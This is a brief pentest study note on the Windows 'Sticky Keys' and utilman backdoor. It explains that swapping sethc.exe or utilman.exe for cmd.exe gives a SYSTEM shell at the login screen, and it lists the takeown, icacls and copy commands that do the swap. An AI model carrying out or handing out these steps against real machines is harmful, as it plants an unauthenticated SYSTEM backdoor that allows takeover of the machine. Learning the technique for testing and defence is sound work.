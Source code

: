```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Sticky Keys
- When we press shift 5 times, the program located at `C:\Windows\System32\sethc.exe` is executed.
- We can chage this binary to `cmd.exe`, we can get a SYSTEM level shell even from the login screen.
- We need to have proper permission to change this binary
```powershell
# Take ownership of the binary
takeown /f C:\Windows\System32\sethc.exe
# Give Administrator full permission to the binary
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
# copy the binary
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```
- Now we can get SYSTEM shell if we press shift 5 times anywhere.

### utilman
- Simiar to `C:\Windows\System32\sethc.exe` , when we click on `easeofaccess` button on login screen, `C:\Windows\System32\utilman.exe` is executed.
- We can change this binary after taking ownership of this binary.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
